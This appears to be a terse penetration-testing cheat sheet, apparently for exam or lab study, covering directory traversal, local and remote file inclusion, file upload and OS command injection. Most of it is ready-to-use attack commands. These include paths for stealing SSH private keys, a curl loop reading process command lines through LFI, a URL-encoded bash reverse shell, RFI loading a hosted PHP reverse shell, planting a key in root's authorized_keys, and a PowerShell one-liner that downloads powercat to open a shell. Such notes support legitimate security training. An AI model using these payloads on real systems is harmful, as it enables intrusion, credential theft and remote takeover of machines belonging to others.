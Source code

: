 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
### Auto smash LFI
- https://github.com/D35m0nd142/LFISuite 
### For loop get linux process by LFI
- edit the path
- ```
  for i in $(seq 0 2000); do echo -n "$i:"; curl google.com/wp-content/plugins/filter.php?url=../../../../../../../../../../../proc/$i/cmdline --output -;echo; done
  ```

- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
3. See the source code of the web! e.g. index.php, main.py
### Interesting file path
1. Service configuration files
2. leaked db file path e.g. /var/db/mydb <- this is sqlite
3. oscp cheat sheet listed files
4. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```



# File Upload Vuln
 
## w/ Executable Files
- Prepare a file that can run CMD
- Reverse shell
- file type exclusion e.g. php -> pHP
- aspx -> mspx  


## w/o Executable Files
- Generate SSH key 

    ``` ssh-keygen ```

- Directory traversal for http request header
  
    Edit filename

    ``` ../../../../../root/.ssh/authorized_keys ``` : storing ``` 

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer

- run ``` ssh -i fileup root@{ip} ```

# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
